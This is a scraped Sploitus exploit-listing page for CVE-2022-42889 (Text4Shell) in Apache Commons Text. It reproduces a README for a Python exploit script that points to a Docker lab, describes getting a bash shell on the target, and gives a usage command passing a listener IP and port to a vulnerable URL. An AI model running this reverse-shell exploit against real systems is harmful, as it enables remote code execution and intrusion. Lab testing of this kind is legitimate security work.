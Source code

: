 ```yaml
---
title: Exploit for Code Injection in Apache Commons Text exploit
url: https://sploitus.com/exploit?id=2F0EFF8D-6549-5E08-9CEE-7EB4A6886613&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-23
fetch_date: 2025-10-03T20:40:10.759325
---
```


# Exploit for Code Injection in Apache Commons Text exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Code Injection in Apache Commons\_Text CVE-2022-42889

2022-10-22 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=2F0EFF8D-6549-5E08-9CEE-7EB4A6886613
# CVE-2022-42889
Python script for CVE-2022-42889

To test this locally follow the docker POC: https://github.com/karthikuj/cve-2022-42889-text4shell-docker

For a PHP version of this: https://github.com/ClickCyber/cve-2022-42889

If youre running this and exploiting it locally, the IP you need to use is the gateway generated when the docker container is created

After getting a bash shell on the docker container
![image](https://user-images.githubusercontent.com/60675004/197314693-58fad146-e794-4123-b731-65341d6a401a.png)
![image](https://user-images.githubusercontent.com/60675004/197314781-89ac5c15-9ca0-4bb4-8d99-1dcd464fb124.png)

Ensure you make the script executable with chmod

```bash
./cve-2022-42889.py 172.17.0.1 9001 'http://localhost/text4shell/attack?search='
```
![image](https://user-images.githubusercontent.com/60675004/197315166-6e83147f-9ca4-4b5d-b984-6f99880d9b5f.png)

NVD: https://nvd.nist.gov/vuln/detail/CVE-2022-42889

### TLDR: You could also just curl the **request_payload** (variable from the code) example directly.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)